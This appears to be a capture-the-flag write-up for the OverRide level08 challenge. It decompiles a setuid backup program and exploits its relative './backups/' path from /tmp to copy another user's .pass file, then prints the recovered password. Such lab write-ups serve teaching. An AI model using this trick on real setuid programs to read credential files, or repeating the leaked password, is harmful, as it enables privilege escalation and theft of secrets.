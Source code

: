 # 08 - RevMe (4)
> README by [jchene](https://github.com/jchene)

We have a binary named level08 at /home/users/level08/

It is owned by `level09`, has a `setuid bit` and hax `NX` disabled

This program is composed of 2 functions: `main` and `log_wrapper`

Let's start with the `main` munction, the program first define two `FILE` streams, an `int` to store a file descriptor, a buffer of 1 `char` and a buffer of 104 `char`

```c
int main(int argc, const char **argv)
{
    FILE *logFile;
    FILE *fileTobackup;
    int backupFd;
    char buf;
    char dest[104];
```

Then the program checks for arguments and print a message in case of an error which tells us the program is expecting a filename as first and only argument

```c
if (argc != 2)
    printf("Usage: %s filename\n", *argv);
```

Then it tries to open a log file located at `./backups/.log` in `write` mode

If it failed the program prints an error message and exits or else it calls the `log_wrapper` function with a debug message and the first argument as parameters

```c
    logFile = fopen("./backups/.log", "w");
    if (!logFile)
    {
        printf("ERROR: Failed to open %s\n", "./backups/.log");
        exit(1);
    }

    log_wrapper(logFile, "Starting back up: ", argv[1]);
```

Next, the program tries to open the file to backup which is the filename passed as argument, prints an error and exits if the file could not be opened.

If no error was encountered the program proceeds to concatenate the filename with "./backups/" and tries to open this new file.

```c
    fileTobackup = fopen(argv[1], "r");
    if (!fileTobackup)
    {
        printf("ERROR: Failed to open %s\n", argv[1]);
        exit(1);
    }

    strcpy(dest, "./backups/");
    strncat(dest, argv[1], 99 - strlen(dest));
    backupFd = open(dest, O_WRONLY | O_CREAT | O_EXCL, 00660);
    if (backupFd < 0)
    {
        printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
        exit(1);
    }
```

Finally, the file is copied character by character using the `buf` defined at the top, the program calls the `log_wrapper` function and closes all remaining opened fd's before returning

```c
    buf = -1;
    while (1)
    {
        buf = fgetc(fileTobackups);
        if (buf == -1)
            break;
        write(backupFd, &buf, 1uLL);
    }

    log_wrapper(logFile, "Finished back up ", argv[1]);

    fclose(fileTobackup);
    close(backupFd);
    return 0;
}
```

Next, let's break down the `log_wrapper` function

The function starts by defining a buffer of 264 char and copies the debug message into it

```c
void log_wrapper(FILE *logFile, const char *msg, const char *filename)
{
    char dest[264];

    strcpy(dest, msg);
```

Then it uses `snprintf` to append the filename to the `dest` buffer and replaces the "\n" with a "\0"

```c
    snprintf(&dest[strlen(dest)], 254 - strlen(dest), filename);
    dest[strcspn(dest, "\n")] = 0;
```

Finally it finishes by writing the `dest` buffer into the log file using `fprintf` before returning

```c
    fprintf(logFile, "LOG: %s\n", dest);
    return;
}
```

This program allow to backup files, it takes a single filename as arguments and copies it to a new file located at `./backups/`

Let's execute it with the `.pass` file located at `/home/users/level09/level09` which contains the flag we need

```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Because the directories `/home/users/level09/` are not present at the `./backups/` location, the program can't open the backup file

Let's try to create the missing directories

```
level08@OverRide:~$ cd ./backups/
level08@OverRide:~/backups$ mkdir home
mkdir: cannot create directory `home': Permission denied
```

We have not the required permissions to create the missing directories

The flaw in this binary resides into the usage of relative path when opening the backup file because the relative path is found using the actual pwd of the user executing the binary

```c
    strcpy(dest, "./backups/");
    strncat(dest, argv[1], 99 - strlen(dest));
    backupFd = open(dest, O_WRONLY | O_CREAT | O_EXCL, 00660);
```

This means we can go to `/tmp/` and create `backups/` directory which will be used by the binary instead of the `/home/users/level08/backups/` directory

We also need to create a `.log` file inside the `backups/` directory

```
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir backups
level08@OverRide:/tmp$ mkdir backups/home
level08@OverRide:/tmp$ mkdir backups/home/users
level08@OverRide:/tmp$ mkdir backups/home/users/level09
level08@OverRide:/tmp$ touch backups/.log
```

Now let's execute the binary while being at `/tmp`

```
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Here is the flag
```
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
